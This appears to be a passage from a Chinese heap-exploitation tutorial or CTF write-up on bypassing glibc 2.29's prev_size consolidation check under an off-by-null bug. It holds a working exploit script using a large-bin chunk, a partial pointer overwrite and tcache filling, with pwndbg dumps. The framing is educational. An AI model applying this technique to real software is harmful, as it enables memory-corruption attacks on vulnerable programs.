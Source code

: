 ```python
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
"""
```

#### check in 2.29

但是很可惜, 在`GLIBC-2.29`中增加了一个check

```c
/* consolidate backward */
if (!prev_inuse(p)) {
  prevsize = prev_size (p);
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
  unlink_chunk (av, p);
}
```

这导致在第12行`free(2)`的时候, `prev_size`是`0x110`但是前一个chunk的`size`却是`0x100`

除非再溢出chunk0修改chunk1的`size`为`0x110`

但是一般题目只会给`off-by-null`

#### bypass

这里的bypass来自[Ex大佬](http://blog.eonew.cn/archives/1233) 需要利用到`large_bin` 构造十分巧妙

我把bypass脚本贴在这 自认为是可以说明问题的

```python
add(0, 0x708)
add(1, 0x18)  # avoid top chunk consodidating
free(0)
add(2, 0x718)  # malloc a large chunk to put the chunk 0 to large bins
add(3, 0x68)  # get the large-bin-chunk. named as chunk_A
edit(3, 0x68, p64(0) + p64(0x81) + b'\x80\x39')  # partial overwrite
add(4, 0x18)
add(5, 0x4f8)

# re-get the 0x18 chunk(chunk4) to trigger off-by-null
# of course, if you can `edit`, just edit it directly.
for i in range(7):
    add(6 + i, 0x18)
for i in range(7):
    free(6 + i)
free(4)
for i in range(7):
    add(6 + i, 0x18)
add(4, 0x18)
edit(4, 0x19, p64(0) * 2 + p64(0x80) + b'\x00')  # off-by-null
"""
pwndbg> x/200xg 0x603250
0x603250:	0x0000000000000000	0x0000000000000071  <-- chunk_A chunk3
0x603260:	0x0000000000000000	0x0000000000000081  <-- fake_chunk_B
0x603270:	0x0000000000603980	0x0000000000603250
0x603280:	0x0000000000000000	0x0000000000000000
0x603290:	0x0000000000000000	0x0000000000000000
0x6032a0:	0x0000000000000000	0x0000000000000000
```